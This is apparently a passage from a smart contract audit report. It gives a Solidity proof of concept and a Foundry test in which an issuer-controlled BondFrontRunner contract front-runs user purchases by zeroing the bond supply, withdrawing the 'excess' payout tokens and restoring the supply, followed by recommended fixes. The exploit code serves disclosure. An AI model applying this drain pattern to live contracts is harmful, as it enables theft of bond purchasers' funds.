 ```solidity
        uint40 maturityInBlocks = 20;
        uint256 purchaseAmount = 10 ** 17;
        uint256 payoutAmount = 1.5 * 10 ** 17;
        issuer.issue{value: msg.value}(totalBonds, maturityInBlocks, address(purchaseToken), purchaseAmount, address(payoutToken), payoutAmount);
    }

    function attack() public {
        bond.updateBondSupply(0);
        bond.withdrawExcessPayout();
        bond.updateBondSupply(100);
    }
}
```

```solidity
function test_issuer_issue_bond_and_frontrun_purchase() public {
    uint256 purchaseAmount = 10 ** 17;
    vm.deal(issuerAccount1, initialIssuanceFee);

    vm.startPrank(issuerAccount1);
    BondFrontRunner bondFrontRunner = new BondFrontRunner(issuer, address(purchaseToken), address(payoutToken));
    Bond bond = Bond(getBondAddress());
    bondFrontRunner.setBond(bond);
    bondFrontRunner.issue{value: initialIssuanceFee}();
    payoutToken.transfer(address(bond), 10 ether); 
    vm.stopPrank();

    vm.prank(user1);
    purchaseToken.approve(address(bond), 50 * purchaseAmount); 

    assertEq(payoutToken.balanceOf(address(bond)), 10 ether);

    vm.prank(issuerAccount1);
    bondFrontRunner.attack();

    assertEq(payoutToken.balanceOf(address(bond)), 0 ether);
    assertEq(payoutToken.balanceOf(address(bondFrontRunner)), 10 ether);

    vm.prank(user1);
    bond.purchase(50, address(0));
}
```

### Recommendations:

It is recommended to adjust the protocol design and business rules to remove the front-run possibility. The vulnerability can be remediated with various approaches:
- Enforce % amount of payout tokens to be held by the `Bond` contract.
- Check the payout tokens balance within the `purchase()` function.
- Add input parameter representing the number of payout tokens to be held by the contract within the `purchase()` call.
- Introduce cooldown period for `Bond` configuration update.
